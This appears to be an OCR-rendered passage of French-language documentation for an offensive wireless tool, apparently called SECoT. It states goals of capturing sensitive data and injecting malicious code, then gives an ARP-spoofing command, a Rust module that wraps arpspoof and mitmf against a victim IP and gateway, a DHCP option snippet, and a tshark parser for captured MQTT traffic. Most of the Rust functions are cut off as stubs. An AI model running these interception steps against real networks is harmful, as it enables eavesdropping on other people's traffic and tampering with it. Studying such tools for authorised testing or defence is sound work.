 ```rust
        .arg("--dhcp-option=3,192.168.1.1")
        .arg("--dhcp-option=6,8.8.8.8,8.8.4.4");

    // Démarrage des services...
}
```

## Connexion Forcée et Interception (MiTM)

### Objectifs
- Capture de données sensibles
- Injection de code malicieux
- Modification des données transmises

### Outils
```bash
# Commande pour l'ARP Spoofing
SECoT arp-spoof --interface wlan0 --victim-ip "192.168.1.100" --gateway-ip "192.168.1.1"
```

### Code Source de l'ARP Spoofing
```rust
// Extrait de SECoT_CLI_Tool/src/attack_modules/wifi_arp_spoof.rs
pub async fn run_arp_spoof(interface: &str, victim_ip: &str, gateway_ip: &str, duration: u64) -> Result<(), Box<dyn std::error::Error>> {
    let mut arpspoof_command = Command::new("arpspoof");
    arpspoof_command
        .arg("-i").arg(interface)
        .arg("-t").arg(victim_ip)
        .arg(gateway_ip);

    // Configuration de l'interception
    let mut mitmf_command = Command::new("mitmf");
    mitmf_command
        .arg("--arp")
        .arg("--spoof")
        .arg("--gateway").arg(gateway_ip)
        .arg("--targets").arg(victim_ip)
        .arg("--interface").arg(interface);

    // Démarrage des attaques...
}
```

### Analyse du Trafic
```rust
// Extrait de SECoT_CLI_Tool/src/parsers/tshark_parser.rs
pub async fn parse_pcap_for_mqtt_traffic(pcap_path: &str) -> Result<Vec<PacketInfo>, Box<dyn std::error::Error>> {
    let mut tshark_command = Command::new("tshark");
    tshark_command
        .arg("-r").arg(pcap_path)
        .arg("-Y").arg("mqtt")
        .arg("-T").arg("json");

    // Analyse des paquets capturés...
}
```

